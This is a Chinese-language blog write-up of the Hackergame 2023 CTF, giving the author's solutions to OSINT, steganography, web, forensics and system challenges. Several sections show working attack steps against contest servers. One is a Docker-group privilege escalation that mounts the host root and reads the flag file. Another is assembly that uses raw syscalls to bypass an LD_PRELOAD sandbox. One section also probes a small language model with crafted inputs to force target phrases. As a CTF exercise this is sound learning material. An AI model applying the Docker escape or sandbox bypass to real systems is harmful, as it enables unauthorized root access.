







## 碎碎念

[同步更新在我的博客](https://yeyeah.life/2023/11/04/hackergame2023WriteUp/)


一如既往的好玩，有趣，享受！

开赛的时候还在cncc会场，回来之后本来想安心补作业的，但终究没忍住玩了一天多把最前面的几道题做了，后面发现作业补不完还quit了一天半把作业都补完了再来继续hackergame启动（标准结局，感觉就是开始做就停不下来了）

在看到题目有趣的题面时会心一笑，搜索相关内容，收获知识，最终用这些知识获取flag，这一系列过程带来的流畅的正反馈我想便是hackergame让人如此沉迷的原因，同时也一圆我小时候想当黑客的幻想。

翻了一下去年我写的wp，发现是1050pts，459/2747，今年变成了4600pts，58/2386，感觉读了一年书还是有长足的进步的。至少混进了前100名中！（上榜了！——）

 不过今年的数学题是真难啊...


因为是写一道题就写一个题的解法，所以这里是按照做出来的顺序排列的，和真实题目难度可能略有差别。


## hackergame启动

``flag{We!c0m3-to-H4cKer9AME-AnD-3njOY-HacK1nG-2023}``

原神，启动！

本来下意识F12想把那个实例音频传到手机上然后用电脑录音的，不过后面自己先念了一段玩发现是老套路，用get提交答案，所以把网址后面改成99.99就能交了。


## 奶奶的睡前flag故事

``flag{sh1nj1ru_k0k0r0_4nata_m4h0}``

一眼png隐写，但是一开始没意识到是个加粗的是关键提示。

搜了一下经典png隐写套路然后pngcheck看了一下说有addtional data，就以为是idat隐写或者是在end后面加东西，找了一些脚本一通操作后失败了。

吃完饭后回来看意识到加粗可能是关键信息，全部组合起来后查了一下，找到了一个CVE:``cve-2023-21036``

了解了一下还挺有意思，google程序员怎么会当时没意识到有这么个明显的bug）修改后的截图居然直接放在原位置

有个在线的网站可以直接利用这个cve：https://acropalypse.app/

上传图片选Pixel3就可以看到了




## Git? Git!

``flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t}``

以前就听说过git的删除是假删除，所以这题应该也是利用了这么一个点。

直接``git reflog``显示所有分支然后一个个切回去grep flag就ok了

应该也可以直接在`.git`仓库里面找找，不过既然有命令那就用一用简单点。


## 猫咪问答

爬虫题写的有点懵逼，不知道为什么返回200却没有text段给我，所以来写点好玩的休息一下

🎉🎉🎉`flag{w3lc0m3-TO-4t7EnD-TH3-n3K0-eXam-zoz3}`🎉🎉🎉

🎉🎉🎉`flag{rEA1-m45TeR-OF-tH3-nEK0-eXaM-in-u$7c}`🎉🎉🎉

1. 想要借阅世界图书出版公司出版的《A Classical Introduction To Modern Number Theory 2nd ed.》，应当前往中国科学技术大学西区图书馆的哪一层？**（30 分）**
   提示：是一个非负整数。

   答案：``12``

   [A classical introduction to modern number theory = (ustc.edu.cn)](http://opac.lib.ustc.edu.cn/opac/item.php?marc_no=2b4855364d76416d512f383633397a3075445a494e773d3d&list=1)

   随便查查图书馆的官网就行了。

2. 今年 arXiv 网站的天体物理版块上有人发表了一篇关于「可观测宇宙中的鸡的密度上限」的论文，请问论文中作者计算出的鸡密度函数的上限为 10 的多少次方每立方秒差距？**（30 分）**
   提示：是一个非负整数。

   答案：23

   GPT的新browser模式就可以解决这个问题，它帮我找到了论文地址

   [[2303.17626\] Nuggets of Wisdom: Determining an Upper Limit on the Number Density of Chickens in the Universe (arxiv.org)](https://arxiv.org/abs/2303.17626)

   进去看看摘要就有23这个数字了。

3. 为了支持 TCP BBR 拥塞控制算法，在**编译** Linux 内核时应该配置好哪一条内核选项？**（20 分）**

   提示：输入格式为 CONFIG_XXXXX，如 CONFIG_SCHED_SMT。

   答案：``CONFIG_TCP_CONG_BBR``

   还是直接搜英文来的简单，关键词``TCP BBR linux kernel “comiple” option "CONFIG"``

   第一个github仓库里面就有了：https://github.com/google/bbr/blob/master/Documentation/bbr-quick-start.md

4. 🥒🥒🥒：「我……从没觉得写类型标注有意思过」。在一篇论文中，作者给出了能够让 Python 的类型检查器 ~~MyPY~~ mypy 陷入死循环的代码，并证明 Python 的类型检查和停机问题一样困难。请问这篇论文发表在今年的哪个学术会议上？**（20 分）**
   提示：会议的大写英文简称，比如 ISCA、CCS、ICML。

   答案：ECOOP

   ”证明 Python 的类型检查和停机问题一样困难。“ 翻译成为英文，然后可以找到论文：**Python Type Hints Are Turing Complete**

   直接拿这个名字问带联网的ChatGPT就把信息给我了

   > 该论文《Python Type Hints Are Turing Complete》由 Ori Roth 作者撰写，发表在 2023 年的第 37 届欧洲面向对象编程会议（ECOOP 2023）上。在这篇论文中，作者应用了 Grigore 的算法到 Python 类型提示上，并得出 Python 类型提示是图灵完备的结论[1](https://drops.dagstuhl.de/opus/volltexte/2023/18237/). 他们展示了 Python 类型系统包括 Grigore 构造中用到的不可判定的 Java 片段，使得它成为图灵完备的，并且与 Java 不同，Python 类型提示由第三方静态分析器和运行时类型检查器检查。新的不可判定性结果意味着这两种类型的检查器都不能完全包含 Python 的类型系统并保证终止[1](https://drops.dagstuhl.de/opus/volltexte/2023/18237/).
   >
   > 该论文还提供了一个将图灵机实时模拟的替代减少方案，导致编译时间显著减少，同时伴随着一个将图灵机编译成 Python 子类型机的 Python 实现[2](https://www.semanticscholar.org/paper/Python-Type-Hints-are-Turing-Complete-Roth/bc0210361535562dac14987da8a91c7839533682). 通过这个研究，作者展示了某些程序会使 MyPy 进入无限循环，这是通过展示一个例子来证明的[3](https://ar5iv.labs.arxiv.org/html/2208.14755).
   >
   > 该论文在德国 Dagstuhl 发表，是一篇在编程语言类型系统研究方面作出贡献的重要论文[1](https://drops.dagstuhl.de/opus/volltexte/2023/18237/

   有趣的是直接问发表在哪个会议上会说找不到，但是只问论文名字就找得到了，果然还是不要给太多没啥用的prompt。

   

   

   ## 旅行照片3.0

   继续来点好玩的，hackergame保留节目咯

   ### 题目 1-2

   1、你还记得与学长见面这天是哪一天吗？（格式：yyyy-mm-dd）

   ``2023-08-10``

   2、在学校该展厅展示的所有同种金色奖牌的得主中，出生最晚者获奖时所在的研究所缩写是什么？

   ``ICRR``

   

   按经验反正先看exlf就对了（）然后发现去年能直接从exlf看到的信息今年看不到了

   那就从场景入手，首先可以定位到喷泉是在东京上野公园，然后查了一下那个牌牌上的人是诺贝尔奖获得者，搜诺贝尔物理学奖-东京大学获得者，定位到了梶田隆章，看wikipedia就可以知道是東京大学宇宙線研究所長，简称是ICRR。

   见面是真想不到是哪天，上野公园啥活动都摆白色帐篷。所以手动爆破一下日期算了。

   

   ### 题目 3-4

   ``flag{how_I_wi5h_i_COulD_w1N_A_Nobe1_pri23_73f7e301c7}``

   ``flag{PluM_w1NE_1S_rEa1LY_EXpen5iVE_bf7b940610}``

   3、帐篷中活动招募志愿者时用于收集报名信息的在线问卷的编号（以字母 S 开头后接数字）是多少？

   ``S495584522``

   4、学长购买自己的博物馆门票时，花费了多少日元？

   ``0``

   

   知道是八月十号就很好定位是什么活动了，美酒节是吧，我也想喝酒T_T，前两天在东北喝的米酒好好喝T_T

   搜索那个美酒节的英文名字加一定出现关键词Volunteer就检索到信息了。

   博物馆门票的话，上野公园那么大肯定在里面的博物馆，所以定位一下，但是把所有的博物馆官网遍历了把所有的成人票学生票票价放进去都不对...很怪

   然后想了想会不会是东大特色优惠

   

   

   结果还真是。。。输入0元flag就出了

   

   ### 题目 5-6

   5、学长当天晚上需要在哪栋标志性建筑物的附近集合呢？（请用简体中文回答，四个汉字）

   ``安田讲堂``

   6、进站时，你在 JR 上野站中央检票口外看到「ボタン＆カフリンクス」活动正在销售动物周边商品，该活动张贴的粉色背景海报上是什么动物（记作 A，两个汉字）？ 在出站处附近建筑的屋顶广告牌上，每小时都会顽皮出现的那只 3D 动物是什么品种？（记作 B，三个汉字）？（格式：A-B）

   ``熊猫-秋田犬``

   

   绝世好社工题，爱来自hackergame

   先做的6再做的5，熊猫是上twitter搜这个活动就找到海报了，是一只粉色大熊猫。

   3D动物的话，马里奥世界应该指的是涩谷任天堂中心，涩谷站的出口就有秋田犬的3d广告牌，然后也是一小时出现一次的。

   

   第五题真的逆天，把旅游景点旅游路线什么全部遍历了一遍也不行，然后对着那个著名旅游岛也遍历了一遍建筑物，也不行，看的我都想去东京旅游了。

   然后第二天做了几道别的题然后来再看，发现有一个继续学术之旅的定语，秉承着都有用的想法看了一下，发现胸牌上真有会议名称。STATPHYS28.

   查了一下这个会议的日程，他们那天晚上在东大安田讲堂集合。拿下。

   谁家会议怎么还能东京湾夜游啊 —— 我也想去 ——


## deeper and darker

奇怪的题

我f12看了一下源码发现它是向服务器搞了个post获取id生成沉船

（一开始还以为是要我写post请求，然后代码里面那个是他拿来捕获我的内容了，但是用request和selenium写了都返回200但没有text，所以感觉是想错了，这个应该只是向服务器查找我的信息来生成flag）

再f12搜索了一下flag发现在下面一闪而过，于是截图走人。。




## 赛博井字棋

``flag{I_can_eat_your_pieces_d7e6b3834e}``

玩了一下之后就基本能看出要赢只能更改交互规则让你能够在ai下过的地方下棋。

本来是写了个py爬虫做交互的，但是不知道为什么跟我的预期不相符，理论上应该返回json的，但是给了整个页面的html..也不知道哪里写挂了

后面换了个比较优雅的做法，把js里面的setmove里面判断能不能下棋的地方的删掉就行，反正合法性只在本地判断没有服务器验证。


## 组委会模拟器

什么音游模拟器，一定有人可以ap罢！

``flag{Web_pr0gra_mm1ng_58c869688c_15fun}``

随便点点看f12 - network发现有4个api，checktoken，getmessages，deletemessage还有getflag

然后需要是连续的所以用request的session功能。

唯一的坑点是传输的data id需要是json格式的，我用dict格式他给我报token错误。。我对着token错误排查好久没排查出来问题，然后把data换成json格式反而就行了。

另外一个注意点是他要在3s内撤回消息所以用``time.time()``测一下时间就好啦~

```python
import requests
import json
import re
import time

url = "http://202.38.93.111:10021/"

MessageUrl = url + "api/getMessages"
DeleteUrl = url + "api/deleteMessage"
FlagUrl = url + "api/getflag"
token = "2132:MEUCIQDZh9A8FMRyArPyLTf1gmCBsVeMRlFyQuM8yzHjCMTyNwIgBH0JUa/m68yUl69XNvW4gPIVWfwp7JRWMxK98t6oXBE="

headers = {
    'Content-Type': 'application/json'
}
TokenUrl = url + "api/checkToken?token=" + token
#print(TokenUrl)
session = requests.Session()

r = session.get(TokenUrl)
r = session.post(MessageUrl)
data = json.loads(r.text)["messages"]
#print(data)
id = 0
begin = time.time()

for msg in data :
    #print(msg["text"])
    t = {
        "id" : id
    }
    match = re.search(r'hack\[[a-z]*\]', msg["text"])
    if bool(match) == True :
        while time.time() - begin - msg["delay"] < 1 :
            pass
        r = session.post(url=DeleteUrl,headers=headers,data=json.dumps(t))
        print(r.text)
    id = id + 1

r = session.post(FlagUrl)
print(r.text)
print(json.loads(r.text))
```


## 虫

``flag{SSssTV_y0u_W4NNa_HaV3_4_trY}``

应该属于misc里面音频隐写的内容，上ctf wiki上面每个方法都稍微试了一下

在看sstv的时候在某篇博文里面看到了这么一句话

> 以前还总有人在搞什么接受空间站的SSTV图片的，近年来越来越少了。

还给了一个示例视频，听起来完全是一个调调。那应该就是sstv慢扫描了，毕竟新手友好题

下了个Rx-SSTV和虚拟声卡程序跑了一下



## JSON $\in$ YAML

``flag{faf9facd7c9d64f74a4a746468400a501965798e72}``

``flag{b1c73f14d04db546b7e7e24cf1cc725287a17a2f3e}``

当搜索引擎题做了）

- 1.1

https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files

找到一个解释的蛮好的StackOverflow回答。

```
{"key":123e999}
```


- 1.2

> JSON 和 YAML 都旨在成为人类可读的数据交换格式。但是，JSON 和 YAML 具有不同的优先级。JSON 最重要的设计目标是简单性和通用性。因此，JSON 的生成和解析都很简单，但代价是降低了人类可读性。它还使用最低公分母信息模型，确保任何 JSON 数据都可以通过每个现代编程环境轻松处理。
>
> 相比之下，YAML 最重要的设计目标是人类可读性和支持 任意[序列化](https://yaml.org/spec/1.2.1/#serialize//)[本机数据结构](https://yaml.org/spec/1.2.1/#native data structure//)。因此，YAML 允许生成极其可读的文件，但生成和解析更加复杂。此外，YAML 超越了最低公分母数据类型，在不同编程环境之间跨越时需要更复杂的处理。
>
> 因此，YAML 可以被视为 JSON 的自然超集，提供改进的人类可读性和更完整的信息模型。实践中也是如此；每个 JSON 文件也是一个有效的 YAML 文件。如果/当需要附加功能时，这使得从 JSON 迁移到 YAML 变得容易。
>
> JSON 的[RFC4627](http://www.ietf.org/rfc/rfc4627.txt) 要求[映射](https://yaml.org/spec/1.2.1/#mapping//) [键](https://yaml.org/spec/1.2.1/#key//)只是“应该”[独特](https://yaml.org/spec/1.2.1/#equality//)，而 YAML 坚持认为它们“必须”是。因此，从技术上讲，YAML 符合 JSON 规范，选择将重复项视为错误。实际上，由于 JSON 对此类重复项的语义保持沉默，因此唯一可移植的 JSON 文件是具有唯一键的文件，因此它们是有效的 YAML 文件。
>
> 定义 YAML 和 JSON 之间的中间格式可能很有用。这种格式解析起来很简单（但人类可读性较差），例如 JSON。同时，它将允许任意[序列化](https://yaml.org/spec/1.2.1/#serialize//)[原生数据结构](https://yaml.org/spec/1.2.1/#native data structure//)，如 YAML。这种格式也可以作为 YAML 的“规范格式”。定义这样的“ YSON ”格式（YSON 是序列化对象表示法）可以通过增强 JSON 规范或限制 YAML 规范来完成。这样的定义超出了本规范的范围。

https://yaml.org/spec/1.2.1/#id2759572

https://lobste.rs/s/equcp2/json_is_not_yaml_subset

所以只要构造一个重复键值就行了

但是我不太能想象这样的json要怎么解读，居然不报错）

```
{"key":"1","key":"2"}
```


## 高频率星球

``flag{y0u_cAn_ReSTorE_C0de_fr0m_asc11nema_3db2da1063300e5dabf826e40ffd016101458df23a371}``

使用了一个命令行文本复制工具``asciinema``

``asciinema cat asciinema_restore.rec > ans.txt``然后稍微用vscode之类的编辑器编辑一下，把前后的删掉还有中间keyboard输入也被录制的那些用空内容替换掉就是个正常的js文件了（ctrl+H然后细心找找有哪些看起来就不对的东西就好），``node flag.js``运行一下就有结果了。


## Docker for Everyone

关键词：Docker用户组提权

事实证明不要随便给人加到用户组里面..挺危险的（

用户创建一个docker容器后，容器内默认是root账户，于是可以利用原容器再创建一个容器，并将主机映射到新容器中的mnt上，这样就可以在新的docker中作为root为所欲为了。

```
alpine:/dev/shm$ groups
hg wheel audio video netdev docker
alpine:/dev/shm$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    187eae39ad94   2 months ago   5.54MB
alpine:/dev/shm$ docker run -v /:/mnt --rm -it 187eae39ad94 chroot /mnt sh
/ # ls
bin         flag        media       root        swap        var
boot        home        mnt         run         sys
dev         lib         opt         sbin        tmp
etc         lost+found  proc        srv         usr
/ # cat flag
flag{u5e_r00t1ess_conta1ner_d347d4440f_plz!}
/ #
```


## HTTP 集邮册

``flag{d1d you hear the HTTP packet from 1991?}``

``flag{stacking_up_http_status_codes_is_fun_2e34303358}``

``flag{I think that when many such status codes are accumulated dfa9d355c4 it becomes a lifetime}``

没学过计网，现学现写（但最后发现结局是现场问GPT能不能构造）


- 获取第二个 flag 需要让 nginx 返回首行无状态码的响应（不计入收集的状态码中）；

我也不知道怎么回事就过了这part...好怪...

```
GET /abcHTTP/1.1 \r\n
```

我猜可能是因为我忘记打空格了所以不带HTTP版本..（测试了一下GET /abc \r\n也可以获得无状态码的响应）


- 获取状态码

200：正常访问

```
GET / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

404：找不到资源

```
GET / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

405：客户端请求中的方法被禁止

```
PUT / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

400：客户端请求的语法错误，服务器无法理解

```
curl http://baidu.com
```

414：请求url过长

```
GET /?query=LONG_PARAMS HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

``LONG_PARAMS``那里随便填点乱码copy多放几遍就触发414了。

304：请求的资源没有更改

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
If-Modified-Since: Tue, 15 Aug 2023 17:04:04 GMT\r\n\r\n
```

注意两个换行就结束报文了...

413：payload太长

```
POST / HTTP/1.1 \r\n
Host: example.com \r\n
Content-Type: application/x-www-form-urlencoded \r\n
Content-Length: 13000000000 \r\n
key=value&foo=bar\r\n\r\n
```

实际上搞个contentlength一大堆就好

但是静态页面似乎不能post，至少gpt是这么说的）

> 在默认的Nginx配置中，如果您发送一个POST请求到一个静态资源（例如HTML页面），Nginx通常会返回405 Method Not Allowed。

206：请求部分内容

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=0-3\r\n\r\n
```

100：还要继续发送

```
GET / HTTP/1.1\r\n
Host: yournginxserver.com\r\n
Expect: 100-continue\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n\r\n
```

以为这个只能用post触发，试了用post然后405了，改成get居然也ok

505：http版本不支持

胡编乱造一个http版本

```
GET /index.html HTTP/9.9\r\n
Host: example.com\r\n\r\n
```

416：请求范围不满足

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=200000-300000\r\n\r\n
```

412：请求标签不匹配

```
GET /index.html HTTP/1.1\r\n
Host: yournginxserver.com\r\n
If-Match: "67890"\r\n\r\n
```


## 惜字如金2.0

``flag{you-ve-r3cover3d-7he-an5w3r-r1ght?}``

其实我也不知道这玩意到底要怎么搞，感觉没用到它的惜字如金规则...说不定做了个非预期解

读代码可以发现它的每一个`cod_dict` 都要判定长度是24，而数一下可以发现长度是23

所以每个都要补全一个字母，而怎么补全呢？前面必须是`flag{` 和`}` ，根据decrypt_data来推定位置，把对应的位置填上flag{}就好。

跑出来就是对的，但是有一些地方因为是一样的字母所以我也不知道这样填才对还是填在最后面才对，并且第一行并没有办法推定加哪个字符，搜索了一下没用到第23位(0-index)，所以就在23位随便填了一个。

交了一下生成的flag居然这样就过了（）


## 小型大语言模型星球

``flag{i-tH!nk-you-aRE-reALly-r3a1lY-sm@R7}``

``flag{YoU-are-ACCepTEd-to-cONTInUE-tH3-94ME}``

- you are smart

看起来是故事性的bot，尝试给他一个语境，于是解决

```
lily ask mom: "is i smart?"
```

- Accepted

我也不知道为什么就出了...

```
accept*
```

我尝试了各种做法，比如重复accepted 5~7次就一定会有accepted出现在语句里

然后试图删减，找accepted的子串等等，都失败了。

然后试了下accepted?也不行

接下来尝试了一下reject和job，invite(invitation)等和accept有关系的名词(反义词等)

也失败了（同时还尝试了诸如!reject和~reject什么的）

然后继续尝试accept相关的东西，打了个accept*就莫名其妙出了（）

ai真是玄虚（）

- hackergame

不会，在词表里看到了hacker和game，但是想不出来怎么拼接（瘫

牛牛更是不知道这词表里都没有的玩意要怎么生成出来


## 低带宽星球

``flag{A1ot0f_t0015_is_available_to_compre55_PNG}``

- 小试牛刀

使用linux的optipng压缩图片即可。

- 极致压缩

不会


## 流式星球

``flag{it-could-be-easy-to-restore-video-with-haruhikage-even-without-metadata-0F7968CC}``

一开始以为每帧都随机删掉了一些字节，感觉几乎不可能做出来，但是后来发现是我缩进看错了...

用010 Editor打开看了一下，还是有明显的分界的，但是也不好区分哪个是正确的边界。

再思考了一下，其实只需要确定删除的offset还有帧的宽度就好，高度和帧数都可以不用管，所以可以暴力枚举

（因为高度不同相当于长截屏的不同长度，我只需要第一帧来帮我确定参数）

```python
from PIL import Image

def bytes_to_png_save(data, width, height, filename):
    # 创建一个RGB模式的图像
    img = Image.frombytes('RGB', (width, height), data)
    img.save(filename, 'PNG')

f = open("video.bin", "rb")
video_data = f.read()
f.close()
alllength = len(video_data)
print(alllength)

# Define a folder path to save the generated images (you can change this as needed)
folder_path = "images/"
for j in range(1, 100):
    alllength = alllength + 1
    for i in range(1, 1000):
        if alllength % (i) == 0:
            filename = f"{folder_path}image_{i}x1000+offset{j}.png"
            bytes_to_png_save(video_data[:i * 3000], i, 1000, filename)
```

写了个代码枚举一下，然后跑出来750张左右图片

迅速一张张过去就好，然后可以确定**427*1000+offset93**是答案


弄出来的图片长这样。

所以再写一份代码把mp4弄出来就好。直接转mp4播放失败了，所以干脆也随便定个高度然后逐帧导出自己翻就可以翻到flag了。


```python
from PIL import Image

def bytes_to_png_save(data, width, height, filename):
    # 创建一个RGB模式的图像
    img = Image.frombytes('RGB', (width, height), data)
    img.save(filename, 'PNG')

f = open("video.bin", "rb")
video_data = f.read()
f.close()
alllength = len(video_data) + 93
print(alllength)
width = 427
height = 800
print(width, height, alllength)
# Define a folder path to save the generated images (you can change this as needed)
folder_path = "images/"

frame_size = width * height * 3  # Size of each frame in bytes
num_frames = alllength // frame_size  # Number of frames in the byte stream
print(num_frames)

# Extract each frame from the byte stream and save as PNG
for i in range(0,num_frames):
    frame_data = video_data[i*frame_size:(i+1)*frame_size]
    filename = f"{folder_path}frame_{i}.png"
    bytes_to_png_save(frame_data, width, height, filename)
```


## 为什么要打开/flag

``flag{nande_ld_preload_yattano_7ac4512494}``

rust那个大概率没能力写，先写写cpp的

题目是用了LD_PRELOAD的.so库来覆写一些常见的可攻击的危险函数，所以我只要写个cpp可以访问然后编译出来交上去就行了。

先试了一下触发fakeflag

```
stdout (标准输出，前 8192 个字节):
I'll
not
let
you
open
/flag
again!
```

查了一下资料，本来想通过strstr大小写敏感来绕过的，但是flag也是不太行，它大小写敏感。

第二天早上睡醒想直接写汇编读取，让GPT写了一下然后就过了（）

```
.section .data
filename:  .string "/flag"
fd:        .quad 0
buf:       .space 100

.section .text
.globl _start
_start:

    # 使用open系统调用打开文件
    mov $2, %rax          # syscall: sys_open
    mov $filename, %rdi   # const char *filename
    mov $0, %rsi          # int flags (O_RDONLY)
    syscall
    mov %rax, %rdi        # file descriptor
    mov %rax, fd          # store the file descriptor

    # 使用read系统调用读取文件
    mov $0, %rax          # syscall: sys_read
    mov fd, %rdi          # int fd
    mov $buf, %rsi        # char *buf
    mov $100, %rdx        # size_t count
    syscall

    # 检查读取的字节数
    cmp $0, %rax          # if read returned 0, end of file
    je .close_file

    # 使用write系统调用将内容写入stdout
    mov $1, %rax          # syscall: sys_write
    mov $1, %rdi          # file descriptor for stdout
    mov $buf, %rsi        # buffer to write
    syscall

.close_file:
    # 使用close系统调用关闭文件
    mov $3, %rax          # syscall: sys_close
    mov fd, %rdi          # file descriptor to close
    syscall

    # 使用exit系统调用退出程序
    mov $60, %rax         # syscall: sys_exit
    xor %rdi, %rdi        # exit status
    syscall
```

使用

```shell
as readflag.s -o readflag.o
ld readflag.o -o readflag
```

编译得到可执行文件即可

但是rust的用这个也搞不到，好像是直接hook掉系统调用了。赛后看看writeup，挺好奇怎么还能绕过的


## Komm, süsser Flagge

``flag{ea5Y_sPl1tt3r_466e82e14b}``

``flag{r3s3rv3d_bYtes_998a1267be}``

``flag{1p_OoOpt10ns_bd3ce29202}``

写这题了解了不少和tcp有关的知识。

- 我的POST

```
curl  -X POST -d "2132:MEUCIQDZh9A8FMRyArPyLTf1gmCBsVeMRlFyQuM8yzHjCMTyNwIgBH0JUa/m68yUl69XNvW4gPIVWfwp7JRWMxK98t6oXBE=" http://202.38.93.111:18080
```

试了一下是否大小写不敏感，结局是Method Not Allow

那应该就只能把POST这个单词分割，一开始是想tcp发包如果太大会分割，那我人工构造payload什么的让它分割掉POST，查到了可以改本机的mtu设置。但是它最小只能到68.

并且POST在最前面，要改只能改TCP包头，tcp包头又不好改，得拿个scapy库来搞搞，反正没搞明白。

开摆了一会后回来一想直接分割发两次tcp然后每个放一部分http请求也行。然后就出了

